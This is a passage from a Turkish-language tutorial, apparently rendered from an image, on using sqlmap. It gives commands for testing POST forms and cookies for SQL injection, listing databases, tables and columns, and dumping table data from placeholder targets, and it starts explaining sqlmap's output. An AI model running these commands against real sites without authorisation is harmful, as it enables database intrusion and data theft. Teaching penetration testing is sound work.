 S - Stacked Query-based

POST İstekleri ile SQLmap Kullanmak

POST isteği kullanarak SQL enjeksiyon testi yapabiliriz. Örneğin, form verileri üzerinde test yapmak için:

```bash
sqlmap -u "https://example.com/login" --data="username=admin&password=1234"
```

Cookie Üzerinden SQLmap Kullanmak

Eğer uygulama oturum açma mekanizmasını kullanıyorsa ve cookie kullanıyorsa, aşağıdaki komutla SQLmap’i test edebilirsiniz:

```bash
sqlmap -u "https://example.com" --cookie="PHPSESSID=xyz123"
```

Veritabanı Hakkında Bilgi Almak

SQLmap, SQL enjeksiyon açığını bulduğunda veritabanı hakkında daha fazla bilgi almak için aşağıdaki komutla kullanılır:

```bash
sqlmap -u "https://example.com/page?id=1" --dbs
```

Bu komut, hedefin kullandığı veritabanlarının listesini alır.
Tablo ve Kolonları Listelemek
Bir veritabanı hakkında bilgi edindikten sonra, tabloları listelemek için:
bash
```bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> --tables
```

Ve bir tablonun kolonlarını listelemek için:

```bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> -T <tablo_adı> --columns
```

Veri Çekmek

SQLmap ile veritabanındaki verileri çekmek için:

```bash
sqlmap -u "https://example.com/page?id=1" -D <veritabanı_adı> -T <tablo_adı> -C <kolon_adı> --dump
```

Bu komut belirtilen tabloyu ve kolonları içeren veritabanı verilerini alır.

4. SQLmap Çıktılarının Yorumlanması

SQLmap çıktısında, aşağıdaki bilgilere rastlayabilirsiniz:

Bağlantı tipi (GET veya POST)

Veritabanı türü (MySQL, MSSQL, PostgreSQL, vb.)

Enjeksiyon türü (Blind, Union, Error-based, Time-based vb.)
